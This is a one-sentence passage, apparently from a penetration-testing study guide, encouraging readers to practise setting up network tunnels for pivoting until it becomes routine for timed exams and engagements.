Practise until choosing and standing up the right tunnel is muscle memory — on a timed exam or a real engagement, the difference between finishing and stalling is often just how fast you can pivot cleanly to the next network.
